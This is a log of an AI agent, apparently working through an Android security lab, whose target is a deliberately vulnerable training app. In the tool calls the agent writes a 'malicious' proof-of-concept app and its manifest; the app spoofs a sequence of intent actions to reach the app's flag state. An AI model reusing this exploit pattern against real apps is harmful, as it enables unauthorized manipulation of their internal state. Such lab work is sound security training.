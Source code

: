 The vulnerability is that we can control the state transitions by sending specific intents with the correct actions.

Now, let's construct the malicious Android application to exploit this.


Function Call: id=None args={'content': 'package com.example.maliciousflag4poc;\n\nimport android.app.Activity;\nimport android.content.ComponentName;\nimport android.content.Context;\nimport android.content.Intent;\nimport android.os.Bundle;\nimport android.util.Log;\n\npublic class MaliciousFlag4PoC extends Activity {\n\n    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";\n    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";\n\n    @Override\n    protected void onCreate(Bundle savedInstanceState) {\n        super.onCreate(savedInstanceState);\n\n        // Step 1: PREPARE_ACTION\n        sendAction("PREPARE_ACTION");\n\n        // Step 2: BUILD_ACTION\n        sendAction("BUILD_ACTION");\n\n        // Step 3: GET_FLAG_ACTION\n        sendAction("GET_FLAG_ACTION");\n\n        // Step 4: Trigger success\n        sendAction("");\n\n        Log.i("MaliciousFlag4PoC", "Exploit completed");\n        finish();\n    }\n\n    private void sendAction(String action) {\n        Intent intent = new Intent();\n        intent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        intent.setAction(action);\n        sendBroadcast(intent);\n    }\n}\n', 'file_path': 'Android-2/MaliciousFlag4PoC.java'} name='write_to_file'
----------
Role: tool
Function Call: None
----------

--- Raw Response from Model ---
GenerateContentResponse(candidates=[Candidate(content=Content(parts=[Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=FunctionCall(id=None, args={'content': '<?xml version="1.0" encoding="utf-8"?>\n<manifest xmlns:android="http://schemas.android.com/apk/res/android"\n    package="com.example.maliciousflag4poc">\n\n    <application\n        android:allowBackup="true"\n        android:icon="@mipmap/ic_launcher"\n        android:label="@string/app_name"\n        android:roundIcon="@mipmap/ic_launcher_round"\n        android:supportsRtl="true"\n        android:theme="@style/Theme.MaliciousFlag4PoC">\n        <activity\n            android:name=".MaliciousFlag4PoC"\n            android:exported="true">\n            <intent-filter>\n                <action android:name="android.intent.action.MAIN" />\n\n                <category android:name="android.intent.category.LAUNCHER" />\n            </intent-filter>\n        </activity>\n    </application>\n\n</manifest>', 'file_path': 'Android-2/AndroidManifest_PoC.xml'}, name='write_to_file'), function_response=None, text=None)], role='model'), citation_metadata=CitationMetadata(citations=[Citation(end_index=191, license='Apache-2.0', publication_date=None, start_index=45, title=None, uri='https://github.com/crosswalk-project/crosswalk-app-tools'), Citation(end_index=490, license=None, publication_date=None, start_index=219, title=None, uri='https://android.googlesource.com/platform/tools/base/+/9bb80dcd51e8e953590473a469a67b3ec8f2b736%5E2..9bb80dcd51e8e953590473a469a67b3ec8f2b736/'), Citation(end_index=798, license=None, publication_date=None, start_index=589, title=None, uri='https://github.com/AKPRAJAPATI/LEARN-JAVA-WITH-ANDROID-STUDIO'), Citation(end_index=892, license=None, publication_date=None, start_index=698, title=None, uri='https://android.googlesource.com/platform/tools/base/+/9bb80dcd51e8e953590473a469a67b3ec8f2b736%5E2..9bb80dcd51e8e953590473a469a67b3ec8f2b736/')]), finish_message=None, token_count=None, finish_reason=<FinishReason.STOP: 'STOP'>, url_context_metadata=None, avg_logprobs=-0.0025829454685779327, grounding_metadata=None, index=None, logprobs_result=None, safety_ratings=None)], create_time=None, response_id=None, model_version='gemini-2.0-flash', prompt_feedback=None, usage_metadata=GenerateContentResponseUsageMetadata(cache_tokens_details=None, cached_content_token_count=None, candidates_token_count=235, candidates_tokens_details=[ModalityTokenCount(modality=<MediaModality.TEXT: 'TEXT'>, token_count=235)], prompt_token_count=15344, prompt_tokens_details=[ModalityTokenCount(modality=<MediaModality.TEXT: 'TEXT'>, token_count=15344)], thoughts_token_count=None, tool_use_prompt_token_count=None, tool_use_prompt_tokens_details=None, total_token_count=15579, traffic_type=None), automatic_function_calling_history=[], parsed=None)
